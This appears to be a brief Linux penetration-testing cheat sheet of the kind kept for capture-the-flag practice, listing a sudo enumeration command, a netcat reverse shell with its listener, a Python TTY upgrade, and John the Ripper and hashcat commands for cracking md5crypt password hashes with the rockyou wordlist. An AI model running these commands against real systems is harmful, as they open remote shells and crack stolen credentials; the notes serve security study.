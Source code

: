 # Linux

- [Sudo](#sudo)
- [Reverse Shell](#reverse-shell)
- [Hash Bruteforce](#hash-bruteforce)

## Sudo
```
sudo -l
```

## Reverse Shell
### Client
```
nc ip 4444 -e /bin/bash
```
### Server
```
nc -lp 4444
```
### TTY Support
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

## Hash Bruteforce
### john
```
john -format=md5crypt-long --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```
### Hashcat
```
hashcat -m 500 hash.txt /usr/share/wordlists/rockyou.txt
```

## Editor
### Hexa
```
hexedit
```
